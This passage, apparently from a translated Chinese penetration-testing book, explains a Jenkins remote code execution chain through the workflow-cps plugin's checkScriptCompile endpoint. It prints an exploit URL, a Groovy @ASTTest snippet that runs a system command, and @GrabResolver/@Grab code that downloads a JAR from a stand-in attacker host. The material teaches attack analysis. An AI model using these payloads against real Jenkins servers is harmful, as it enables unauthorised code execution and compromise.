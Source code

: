*   ACL 绕过以调用搜索功能
*   X-Jenkins 值的响应头
*   调用搜索 URL 后关键字管理员的 HTML 页面主体

在这里，我们可以看到一些与 Groovy 的`doCheckScriptCompile`方法相关的内容正在被提及。`doCheckScriptCompile`是一种允许开发人员检查语法错误的方法。要解析语法，使用 AST 解析器（有关更多详细信息，请参阅本章的*Jenkins 术语*部分）：

![](assets/26e0ac8f-3aca-4867-9030-52c24e04a831.png)

为了能够实现成功的 RCE，我们需要发送通过`doCheckScriptCompile()`发送时执行的代码。这就是元编程的用武之地。Groovy 是元编程友好型的

当我们查看 Groovy 参考手册时，会遇到`@groovy.transform.ASTTest`，其描述如下：

![](assets/0639822c-f95e-4042-96d1-674ec5b3eca4.png)

这意味着通过`@ASTTest`时将执行以下代码：

```
@groovy.transform.ASTTest(value={
assert java.lang.Runtime.getRuntime().exec(" echo 'Hacked' ")
})
```

到目前为止，漏洞可以这样编写：

```
http://jenkins/org.jenkinsci.plugins.workflow.cps.cpsflowdefinition/checkScriptCompile?value=@groovy.transform.ASTTEST(value={echo%201}%0a%20class%20Person())
```

URL 正在调用 Jenkins 的`workflow-cps`插件，该插件具有`checkScriptCompile`方法。托管代码的 URL 为

[https://github.com/jenkinsci/workflow-cps-plugin/blob/2.46.x/src/main/java/org/jenkinsci/plugins/workflow/cps/CpsFlowDefinition.java](https://github.com/jenkinsci/workflow-cps-plugin/blob/2.46.x/src/main/java/org/jenkinsci/plugins/workflow/cps/CpsFlowDefinition.java) 可以看出如下：

![](assets/92459083-6566-4699-8312-47a5238659b6.png)

然而，只有在 Jenkins 中不存在**管道共享 Groovy 库插件**的情况下，此版本的攻击才会起作用。这就是为什么，如果我们进一步查看漏洞代码，我们将看到与注释中提到的最终有效负载中使用的`@Grab`相关的内容，如下所示：

![](assets/0b54ba3b-c835-4bc3-99f4-9920a7930eeb.png)

现在，我们需要了解`@Grab`是什么。根据 Groovy 的官方文档，Grape 是一个 JAR 依赖关系管理器，允许开发人员管理 Maven 存储库依赖关系并将其添加到类路径中，如以下屏幕截图所示：

![](assets/8565ff3b-f819-47b5-b6d8-d965c29162f5.png)

因此，`@Grab`将从上述存储库导入依赖项，并将它们添加到代码中。现在，出现了一个问题：“如果存储库不在 Maven 上怎么办？”在我们的例子中，因为它在外壳代码中，Grape 将允许我们指定 URL，如下面的屏幕截图所示：

![](assets/8f39306c-6f4b-4973-9df3-cd971a0d1da7.png)

下面的代码将从[下载 JARhttp://evil.domain/evil/jar/org.restlet/1/org.restlet-1.jar](http://evil.domain/evil/jar/org.restlet/1/org.restlet-1.jar) ：

```
@GrabResolver(name='restlet', root='http://evil.domain/')
@Grab(group='evil.jar, module='org.restlet', version='1')
import org.restlet
```
